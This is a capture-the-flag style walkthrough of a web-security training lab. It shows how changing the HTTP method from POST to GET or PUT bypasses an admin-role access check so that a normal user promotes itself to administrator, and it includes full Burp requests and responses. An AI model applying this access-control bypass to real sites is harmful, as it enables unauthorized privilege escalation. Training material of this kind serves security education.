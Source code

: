 # Lab: Method-based access control can be circumvented

## Lab Description

This lab implements access controls based partly on the `HTTP method` of `requests`. You can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`.

To solve the lab, log in using the credentials `wiener:peter` and exploit the flawed access controls to **promote yourself to become an administrator**.

## Lab Solution

1. Log in using the admin credentials.
2. Browse to the admin panel, promote `carlos`, and send the HTTP request to Burp Repeater.

![Upgrade Carlos](testing-to-upgrade-user.png)

3. Logout as `administrator` and log in with user credentials `wiener:peter`. Capture the session cookie

4. Attempt to re-promote `carlos` with the non-admin user by copying that user's session cookie into the existing Burp Repeater request, and observe that the response says "Unauthorized".

5. Edit the `username` parameter to `wiener`

Now we have two options to try:
### Option 1 - Change to GET Method

6. Convert the request to use the `GET` method by right-clicking and selecting `"Change request method"`. Send request.

**HTTP Request**

```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0aff007c04cf317480b68f8400a300da.web-security-academy.net
Cookie: session=MyDSQ7JZxxn1ZMKRxcIfr2vatCwHEd1e
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aff007c04cf317480b68f8400a300da.web-security-academy.net/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aff007c04cf317480b68f8400a300da.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

```
**HTTP Response**

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

### Option 2 - Change to PUT Method

6. Exchange the `POST` to `PUT` and send request.

**HTTP Request**

```
PUT /admin-roles HTTP/2
Host: 0aa600a6037e113d801cfd8e00570031.web-security-academy.net
Cookie: session=MyDSQ7JZxxn1ZMKRxcIfr2vatCwHEd1e
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aa600a6037e113d801cfd8e00570031.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa600a6037e113d801cfd8e00570031.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

username=wiener&action=upgrade
```

**HTTP Response**

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```
